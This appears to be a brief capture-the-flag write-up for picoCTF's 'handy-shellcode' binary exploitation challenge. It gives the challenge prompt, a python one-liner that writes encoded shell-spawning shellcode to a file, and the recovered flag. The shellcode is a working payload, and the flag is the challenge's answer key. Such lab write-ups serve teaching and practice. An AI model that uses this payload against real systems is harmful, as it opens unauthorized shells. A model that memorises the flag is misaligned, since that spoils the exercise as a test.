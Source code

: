 # AUR

handy-shellcode - Points: 50 - (Solves: 328)Binary Exploitation - Unsolved
Solve
Hints
This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_4_b724dbfabf610aaa4841af644535be30 on the shell server. Source.
You might be able to find some good shellcode online.

***

python -c "print('\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81')" > ~/shellcode.txt

ls
flag.txt  vuln  vuln.c

cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_4dc9a786}